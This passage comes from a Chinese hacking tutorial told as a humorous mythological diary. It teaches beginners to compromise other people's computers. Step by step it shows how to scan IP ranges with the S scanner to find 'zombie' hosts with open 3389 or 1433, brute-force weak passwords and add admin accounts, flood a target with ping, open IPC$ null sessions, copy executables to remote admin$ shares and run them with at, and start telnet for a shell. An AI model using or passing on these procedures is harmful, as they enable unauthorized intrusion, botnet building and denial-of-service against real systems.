

很方便吧。不过由于 X-WAY 2.6 是 2002 年的作品，所以这个攻击工具有点过时了。嘿嘿~~~


六、嗅探器。在“嗅探器”（图10-2）界面有四个按钮，分别为“开始捕获”、“暂停捕获”、“停止捕获”、“捕获筛选设置”。首先进行“捕获筛选设置”，然后点击“开始捕获”就可以捕获数据了。

## 日记十一：学会组建肉鸡网

上古二年 10月3日 星期一 天气很好

今天我真的很郁闷，想起前几天攻击后羿，我付出了那么多努力，最终却失败了，气死我了！为什么啊？不是说 DDOS 管用吗？原来是需要大量的人啊。可是最近八戒也不借给我肉鸡了，其他人都那么猴精，我要想攻击后羿可怎么办啊？不过管不了那么多了，我只能学点是点，能怎么攻击就攻击下他。

黑客一般在攻击前都要先扫描，据说这样就能扫描出对方系统的漏洞和开放的端口，那么我也不妨试一试，学习下如何扫描。

> **菜鸟恶补：** 安全扫描技术主要分为两类：主机安全扫描技术和网络安全扫描技术。网络安全扫描技术主要针对系统中不合适的设置、脆弱的口令，以及针对其它同安全规则抵触的对象进行检查等；而主机安全扫描技术则是通过执行一些脚本文件模拟对系统进行攻击的行为并记录系统的反应，从而发现其中的漏洞。

这里我们就来重点看看网络安全扫描技术，因为这个才是我们真正要学习的内容！原理是利用一系列的脚本模拟对系统进行攻击的行为，并对结果进行分析。这种技术通常被用来进行模拟攻击实验和安全审计。网络安全扫描技术与防火墙、安全监控系统互相配合，就能够为网络提供很高的安全性。

好了，具体的废话这里就不多说了，再说下去我这个日记本就写满了，没那么多空地了啊！不过我相信读者也像我一样，都是急性子，不愿意看那么多理论。那么我们下面就开始上菜，来看下扫描利器！

| 项目 | 内容 |
|---|---|
| 名称 | S 扫描器 |
| 软件类型 | 黑客工具 / 免费软件 |
| 软件语言 | 简体中文 |
| 运行环境 | Win9X / Win2000 / WinXP / Win2003 |

首先我解释下什么是 S 扫描器。S 扫描器是针对微软 MS04-045 漏洞出的一个扫描器。原来作者出这东西的目的是为了扫描这个漏洞，但现在已经变成我们黑客手中的兵器了。大家也许看过很多如何找肉鸡的动画或刷 QB 的动画，那些动画里面很多都是用 S 扫描器来扫描肉鸡或别人电脑所开放的端口及一些漏洞。用这工具的好处是它的扫描速度实在是一个字——强！今天我就来教下大家如何使用 S 扫描器。简单说明下它的用处：

> **菜鸟恶补：** S 扫描器是一个简单的使用两种常用扫描方式进行端口扫描的端口扫描器程序。

```text
用法: scanner TCP/SYN StartIP [EndIP] Ports [Threads] [/Banner] [/Save]
```

### 参数说明：

- TCP/SYN -> TCP 方式扫描或 SYN 方式扫描（SYN 扫描需要在 Win 2K 或以上系统才行），SYN 扫描对本机无效
- StartIP -> 起始扫描的 IP
- EndIP -> 结束扫描的 IP，可选项，如果这一项没有，就只是对单个 IP 扫描
- Ports -> 可以是单个端口、连续的一段端口或非连续的端口
- Threads -> 使用最大线程数去扫描（SYN 扫描不需要加这一项），不能超过 1024 线程
- /Banner -> 扫描端口时一并将 Banner 显示出来，这一选项只对 TCP 扫描有效
- /Save -> 将结果写入当前目录的 Result.txt 文件中。

我们先点击开始菜单——>运行——>cmd，然后呢，在命令提示符下输入 c:，然后回车。（图11-1）

因为我把扫描器放在 C 盘，你们的扫描器放在哪里，你们就进哪里，这个一定不要忽视啊。很多菜鸟喜欢把一些软件下载回来后放到桌面，这样对图形类的软件可以，但是当他用这些命令软件时就根本打不开，还都以为是 RP 问题呢。其实只是事先把这个软件放到具体路径下才可以，否则即使测试到 3000 年，也是不行的啊！


打开 S 扫描器，首先看下它的命令帮助（图11-2）。



下面我举几个例子来演示下如何使用 S 扫描器。

### 例子一：

```text
S TCP 218.80.12.1 218.80.12.123 80 512
```

TCP 扫描 218.80.12.1 到 218.80.12.123 这 IP 段中的 80 端口，最大并发线程是 512。（见图11-3）

### 例子二：

```text
S TCP 218.80.12.1 218.80.12.123 21,5631 512 /Banner
```

TCP 扫描 218.80.12.1 到 218.80.12.123 这 IP 段中的 21 和 5631 端口，最大并发线程是 512，并显示 Banner（图11-4）。



图11-3



图11-4

### 例子三：

```text
S TCP 218.80.12.1 218.80.12.12 1-200 512
```

TCP 扫描 218.80.12.1 到 218.80.12.12 这 IP 段中的 1 到 200 端口，最大并发线程是 512。（图11-5）



图11-5

### 例子四：

```text
S SYN 218.80.12.1 218.80.12.255 21 /Save
```

SYN 扫描 218.80.12.1 到 218.80.12.255 这 IP 段中的 21 端口，将结果写入 Result.txt。

这个我重点说明一下，因为这条命令就是专门用来找肉鸡的，扫描一个 IP 段有没有开 3389 或 1433 的（图11-6）。



图11-6

我示范下：s syn 218.80.12.1 218.80.12.255 3389 /save（找开放 3389 肉鸡的指令，菜鸟要牢记哦），一定会有好多开了 3389 的（图11-7）。


我们只要利用这指令扫到开 3389 的 IP，再利用别的工具继续扫开了 3389 端口肉鸡的弱口令，找到了马上建立管理员，登录进去，你就得到一个肉鸡了。

S 扫描器扫描命令，这里举个例子给大家，其他的都一个道理啊！

| 文件名 | 参数 | 起始IP | 结束IP | 要扫描的端口 | 保存 |
|---|---|---|---|---|---|
| s | SYN | 61.0.0.0 | 61.255.255.255 | 1433 | save |

> 小知识：有很多人扫描的时候总是出错，出错原因主要三点。  
> 第一、你的 S.exe 没有放在你在运行的目录下，所以会提示“s”不是内部或外部命令，也不是可运行的程序或批处理文件。  
> 第二、你在运用的时候参数错误！  
> 第三、Windows XP SP2 不支持这个命令！

经过了上面的 4 个例子，大家一定都很清楚这个了。下面是逄蒙学习时领悟的几点关于 S 扫描器的经验，大家要仔细啊！

- 1. SYN 扫描是很依赖于扫描者和被扫描者的网速的。如果你是内网系统，那你不一定可以使用 SYN 扫描，因为你的网关类型会决定内网系统是否能进行 SYN 扫描。如果你的配置较低的话，我也不推荐使用 SYN 扫描。SYN 扫描速度是比 TCP 扫描快很多，但在稳定性方面却不是太好，所以自己决定使用哪种模式进行扫描。
- 2. SYN 扫描不需要线程那个参数。
- 3. TCP 扫描的最大并发线程不能超过 1024。
- 4. 使用 SYN 模式扫描，不能扫描 Banner。具体为什么不能，请查看有关 SYN 的资料。
- 5. 内网用户的朋友可以用 TCP 扫描。

## 日记十三：又失败了

上古三年104日 星期三 天气不是很好

逢蒙的心情是不平静的，经过这段时间的学习，发现自己前面走了很多弯路，假如攻击前先把老师后羿的机器全面地先扫描下，然后针对扫描结果对症下药，成功的几率是很大的，可是自己却连这个最基本的道理都不知道。难道自己真的太笨了，真的不甘心啊！只要勤学，自己不会比任何人差的。扫描既然这么简单，那么就先扫下老师的机器。看看这个号称第一黑客的人的机器有无漏洞。下载了网络安全漏洞扫描器v4.30，因为在逢蒙的这段时间学习中，他发现了网络上的扫描器真是多如牛毛，但是他对这款就是情有独钟。简直就是太好用了。

首先PING了下天庭一个后宫的站点，得到了这个站点的IP。也许有的读者不明白，为什么要PING这个站啊？其实嘛，随便PING啊，PING哪个都一样的，只要这个站在后羿控制的服务器上就可以。而后宫的这个小站点，当然是在天庭的服务器上了。经过PING发现这个站点的IP是225.23.34.45（绝对是假设的啊！）。然后在扫描器上添加这个IP地址，点击扫描。只一会儿的工夫，就返回了报告。逢蒙再次傻了，后羿这小子该有的漏洞他一个都没有，该开的服务他也没开啊！

> **小行友情提醒：** 不要以为这样后羿的服务器就无懈可击，没有绝对安全的服务器！

## 日记十三：ping

上古四十一年13月29日 星期九十二 晴

“萍儿，你过来。”这老头叫了他的贴身丫环。我想，这老头好生奇怪哦。要讲入侵之道，为何又叫他的丫环，难道丫环也懂入侵不成？我满脸的狐疑，盯着孙武，孙武也早就料到我会有此疑问，忙解释道：“我们接下来要讲的东西就和她有关啊。”

我向外望去，见一个身穿旗袍的女子，迈着小碎步进来。来到跟前，先向孙武施礼，叫了声“老爷”，声音甜美无比、悦耳动听。在她抬起头来的时候，我一看，眼睛就不听使唤了：她不是一个典型的美女，但是有一种无与伦比的气质，有一种让人不忍心亵渎的美丽。看了十几分钟，我才回过头来（然后下意识地认识到自己失礼了，不免脸红心跳）。

孙武答应了一声“嗯”，接着介绍我：“这位是逢蒙，逢大将军。”我点了点头（我什么时候变成将军了啊？后来才知道如来佛祖给我加官进爵了，嘿嘿，我已经是逢大将军了），萍儿这才转过身，给我施礼，我连忙将她搀起。在这几秒钟内我竟然感觉到我可能爱上她了。孙武讲道：“接下来的入侵，我们就讲萍儿（ping），如果你能学得十分精通的话，我就将萍儿许配给你。”我内心十分喜悦，仿佛快要爆炸了；但表面上还表现得比较冷静，说道：“孙君，言重了，我等均奉佛祖法旨，还谈什么条件啊。我一定会学有所成，扳倒后羿。”（男人嘛，这很正常，英雄难过美人关，我也不会例外啊！）孙武满意地点头，继续开始：

> **菜鸟恶补：**
>
> 知道了对方的主机名，直接用 ping 命令就可以获取其 IP 地址了。  
> 格式：`ping machine_name`  
> 例如：`ping D22`（图13-1）
>
> 我们就可以获得 machine_name 为 D22 的 IP 地址是：192.168.0.222 了。
>
> 局域网得到了对方的 IP 地址，我们就可以获得主机名：这个方法只能在局域网的同一网段内使用。格式：`ping -a ip_address`
>
> 接着上面的例子，`ping -a 192.168.0.222`
>
> 看吧，它的 machine_name 出来了吧，就是 D22（图13-2）中的白色部分显示的部分就是哦。
>
> 通过 ping 判断一台主机的操作系统：ping 一台主机的时候，会返回一个叫做 TTL（生存周期）的东东。不同类型的操作系统的 TTL 值是不同的。根据这个 TTL 我们就可以判断主机的操作系统。WIN2000 的 TTL 为 128；一般的 UNIX 系统的 TTL 为 255。
>
> 上面 192.168.0.222 显示的 TTL 是 128，现在我们就可以初步地判断它的操作系统为 WINDOWS 2000 了。不过说实话，这里的 TTL 值是可以任意修改的，所以使用这种方法只能作为一种参考。

## 死亡之 ping

用 ping 命令可以进行最简单的 DOS 攻击，其实该攻击就是利用 ping 命令来不停地发送大量的数据包。接下来我们就利用 ping 的“-l”参数。它的格式为：

`ping ip_address(or machine_name) -l len`

例如：现在我们使用长度为 650 bytes 的数据包来 ping 一台主机：  
`ping 192.168.0.222 -l 650`（图13-3）

不过，上面的命令只能发送一定量的数据包而已，即使这个一定量可能是个很大的数字，但是进行攻击我们需要不停地对目标发送数据包。  
ping 的“-t”参数，做到“不停地 ping”，加上 -t 参数以后，直到你按“ctrl+c”之前，ping 命令都会不停地发送数据包给对方来检测线路连通状况。

现在我们就用 ping 的“-t”参数来攻击 192.168.0.222，格式：`ping -t 192.168.0.222`（图13-4）  
如想停止攻击，我们按下“ctrl+c”就停止发送数据包了。

## 日志十四：观音的 ipc$ 金刚圈

上古四十一年14月29日 星期六 呼呼大的风

孙武讲完 ping，就停止不讲了。我也料到他就这些东西了，只好另寻他处，继续求学。辞别了孙武，带着萍儿来到东海（萍儿现在已经是我的老婆了，法定的老婆）。在观音菩萨的道场见到了观音大师。观音大师还是那么年轻漂亮，不过因为她是佛界的菩萨，加上我已经有了萍儿，自然对观音大师宾礼有加。得知我的来意，观音大师哈哈大笑：“佛祖何时变得如此小心眼啊？那好吧，我来助你，我保举一人——哪吒，此人好生厉害，在人间练得一身好武艺，尤其擅长入侵攻击（风火轮是他的看家法宝），你去找他吧。”临走之前，观音大师送我一样兵器：ipc$金刚圈，此兵器在一定的情况下可以使攻击的能量加倍，它是一些攻击的基础。还是观音大师比较了解我等菜鸟的苦处啊。好的，好好地加强下基础。

ipc$名为“共享命名管道”，建立了 ipc$ 连接后，就相当于与对方主机之间建立起一条无形的连接通道，我们可以通过这个“共享连接通道”来做许多的事。

### 1、建立 IPC$ 空连接

建立 IPC$ 空连接就是建立一个不需要用户名和密码，不需要系统进行验证的连接，命令为：

```bash
net use \\ip\ipc$ "" /user:""
```

当收到成功的提示后，就算是建立了一个 IPC 空连接了。建立了 ipc$ 空连接有什么用呢？

建立了 ipc$ 空连接就可以对远程机上的用户枚举了，除此之外，还可以访问任何一个 everyone 组有权限访问的文件或是文件夹。在默认的情况下，有很多甚至可以说是全部的文件夹是对 everyone 组有访问权限的（甚至是 C 盘哦，看看图14-2）。

而且在默认的情况下，everyone 组还对注册表的键值有读取权限，这个用 regedt32 就可以看出来。

从图14-3可以看出，everyone 组对主键“HKEY_LOCAL_MACHINE”是有读取权限的。

当然其他的键也是这样的，这样一来，通过注册表就可以获得很多的系统信息了。所以 ipc$ 空连接是很可怕的东西。

### 2、建立 ipc$ 连接／删除 ipc$ 连接

命令格式：

```bash
net use \\ip\ipc$ "password" /user:"username"
```

示例（图14-4）：

```bash
c:\Documents and Settings\D\>net use \\192.168.0.222\ipc$ "123" /user:adminis
```

ipc$ 名为“共享命名管道”，建立了 ipc$ 连接后，就相当于与对方主机之间建立起一条无形的连接通道，所以，如果对方对本地机与外界主机通信进行监视的话，就很容易被发现。因此在使用完该连接后，要尽快删除，命令为：

```bash
net use \\ip\ipc$ /del
```

示例（图14-5）：

```bash
c:\Documents and Settings\D\>net use \\192.168.0.222\ipc$ /del
```

### 3、上传文件（copy）/运行文件（at）

```bash
copy c:\srv.exe \\ip\admin$
```

示例（图14-6）：

```bash
c:\Documents and Settings\li\>copy c:\nina.exe \\192.168.0.222\admin$
```

这样就上传文件到对方的 admin$（c:\winnt）共享文件夹下了。最简单的文件运行命令：at。

at 命令是用来指定 win2k 的计划任务的一个命令，使用这个命令可以指定某个程序在指定的时间运行。其命令格式为：

```bash
at \\ip\time srv.exe(or command)
```

示例（图14-7）：

```bash
c:\Documents and Settings\li\>at \\192.168.0.222 15:42 web.exe
```

上面的 time 就是指定的程序运行的时间，srv.exe 就是要运行的程序。另外，后面括号里的 (or command) 说明这里除了能运行程序外，还可以指定想要运行的命令，例如：`net start telnet`，这样就可以在指定的时间开启对方的 telnet 服务了，怎么样？直接就获得了一个 shell，很简单吧！

### 4、获得对方的时间

在建立了 ipc$ 连接（有时候只需要建立 ipc$ 空连接即可）后，就可以使用以下命令：

```bash
net time \\ip
```

示例（图14-8）：

```bash
c:\Documents and Settings\li\>net time \\192.168.0.222
```

后，直接用这个命令就得到了对方系统的时间。这个时间是通过对方 netbios 泄露的，如果对方堵塞了端口或是停掉 netbios 服务的话，我们就无法通过 ipc$ 连接获得时间了。

运行 at 命令需要计划任务服务，所以，如果此服务没有启动，将不能使用 at 命令。在本机上开启这个服务：

```bash
net start "Task Scheduler"
```

（图14-9）（注意这个命令后面的服务名中含有空格，所以用引号将其引起来，这样就可以使用 at 命令了。）

## 日记十五：黑熊怪含谦

42年13月1日 星期二 飘泼的大雨

正欲离开东海去找哪吒，突然间黑熊怪拦住我的去路，萍儿看到丑陋的黑熊怪吓得躲入我的怀中。我忙叫她不用怕，对她解释：“这黑熊怪在孙悟空西天取经之时曾偷了唐僧的袈裟。现在受观音菩萨的点化做了菩萨道场后山的守山大神，成了正果！”

> 我问黑熊怪：“菩萨指点我去找哪吒，你为何拦住去路？”

黑熊怪忙道歉：“逢蒙将军，我怎敢拦您？”

他吞了口口水，继续说：“菩萨还有些事情让我嘱咐您。她怕您‘金刚圈’在手，却不精通啊。特命我传授你内功心法，有了它，你才能运用得得心应手！”

“哦，原来是这样。”观音还真有心计，自己不教我，却让一个小毛神黑熊来。这样将来如果我入侵老师后羿的家东窗事发的话，她也好推卸责任啊。

> “好精明！”我道，“观音大师果然细心，来吧，且听你讲授‘金刚圈’的心法。”

上面讲到了用命令行开启 Task Scheduler 这个服务。其实也可以利用“计算机管理”来启动该项服务，方法如下：

执行“我的电脑|管理”打开“计算机管理”窗口。选定“服务和应用程序”下的“服务”，在系统服务的列表中找到“Task Scheduler”（图15-1），发现它是禁用的。

好了，右键单击该服务项，选择“属性”，打开“Task Scheduler 的属性（本地计算机）”对话框（图15-2）。然后将“启动类型”设置为自动。

单击“确定”，回到计算机管理窗口，再次右键单击“Task Scheduler”服务项，选择“启动”，出现“服务控制”框，意思是 Windows 正在启动本地计算机上的 Task Scheduler 服务（图15-3）。几秒钟后，服务就启动了（图15-4）。

### 5、命令行下映射对方磁盘

```bash
net use x: \\ipc$
```

（图15-5）这样就映射对方的磁盘（假设 C 盘被默认共享）到本地的 X 盘了。

这时候就可以像使用本地资源一样来查看或是修改远程的文件了。当然，前提是你有足够的权限。

断开映射：

```bash
net use x: /del
```

（图15-6）（其中，X盘是你映射的远程主机的盘，命令成功后有提示）X: 已经删除。

### 6、CACLS 命令查看某个文件夹所对应分给每个用户的权限

它用来查看哪些用户是否具有权限访问这个文件或是文件夹。例如，在“C:\Documents and Settings\01\”下，使用命令来查看 C 盘的 ACL，可以看到（图15-7）的情况。

- “F”——完全控制；“R”——只读；
- “C”——更改（写入）；“W”——写入；
- “N”——无权限。

在入侵中我们可以利用此命令来查看自己的权限——对某个文件或文件夹的权限。

### 7、中断会话

用 `net session` 可以看到远程主机在和本机通信，这时候使用命令 `net session \\machine_name /del`（图15-8）：

```bash
C:\Documents and Settings\vh>net session \\192.168.0.222 /del
```

### 8、nslookup 获得域主机 IP 列表

`nslookup` 是一个用来验证 DNS 服务响应的工具。而且，也可以用它来获得域中的主机 IP 列表。使用命令 `nslookup www.hao123.com`，这样就可以获得 `www.hao123.com` 这个域的主机 IP 列表，同时还会获得本地主机所使用的 DNS 服务器的地址，图15-9中的 `server` 和 `address` 就分别是 DNS 的地址和 IP 地址。

防御：命令行下启动本机的 ipc$

```bash
C:\Documents and Settings\vh>net share ipc$
C:\Documents and Settings\vh>net share ipc$ /del
```

ipc$ 并不是一个服务，而是一个特殊的管理共享。删除或是开启 ipc$ 的共享命令分别为 `net share ipc$`（图15-10）和 `net share ipc$ /del`（图15-11）。

等黑熊怪传授完金刚圈心法之后，我谢过他和菩萨，就驾机离开东海了。

## 日记十六：哪吒三太子的风火轮：telnet

上古四十一年14月36日 星期怀 春风吹

转眼间我又来到了人间。虽然是一眨眼的工夫，但是人间已经过了好些天了。天上和人间的时间概念不一样啊。来到李靖的府内，见到了哪吒三太子，向他讨教。三太子十分友好，道：“既然菩萨推荐，我就当仁不让。”说着就取来他的风火轮，并且毫不吝啬地将风火轮的绝技传授于我：

Telnet 服务虽然也属于客户机/服务器模型的服务，但它更大的意义在于实现了基于 Telnet 协议的远程登录（远程交互式计算），那么就让我们来认识一下远程登录。

### 菜鸟恶补：远程登录的基本概念

先来看看什么叫登录：分时系统允许多个用户同时使用一台计算机。为了保证系统的安全和管理方便，系统要求每个用户有单独的账号作为登录标识，系统还为每个用户指定了一个口令。用户在使用该系统之前要输入标识和口令，这个过程被称为“登录”。

远程登录是指用户使用 Telnet 命令，使自己的计算机暂时成为远程主机的一个仿真终端的过程。仿真终端等效于一个非智能的机器，它只负责把用户输入的每个字符传递给主机，再将主机输出的每个信息回显在屏幕上。

远程登录的工作过程：

使用 Telnet 协议进行远程登录时需要满足以下条件：在本地计算机上必须装有包含 Telnet 协议的客户程序；必须知道远程主机的 IP 地址或域名；必须知道登录标识与口令。

- Telnet 远程登录服务分为以下 4 个过程：
1. 本地与远程主机建立连接。该过程实际上是建立一个 TCP 连接，用户必须知道远程主机的 IP 地址或域名；
2. 将本地终端上输入的用户名和口令及以后输入的任何命令或字符以 NVT（Net Virtual Terminal）格式传送到远程主机。该过程实际上是从本地主机向远程主机发送一个 IP 数据包；
3. 将远程主机输出的 NVT 格式的数据转化为本地所接受的格式送回本地终端，包括输入命令回显和命令执行结果；
4. 最后，本地终端对远程主机进行撤销连接。该过程是撤销一个 TCP 连接。

### 菜鸟恶补：Telnet 协议

TELNET 远程登录协议。WINDOWS 2000 SERVER 中提供 TELNET 服务器，利用 TELNET 服务器我们可以让用户从远程的电脑上通过网络以及 TCP/IP 传输协议，连接到服务器上，就像是使用 BBS 系统一般，进而执行管理操作系统的指令，这样一来，即使不在电脑旁边，也可以对系统进行管理工作。

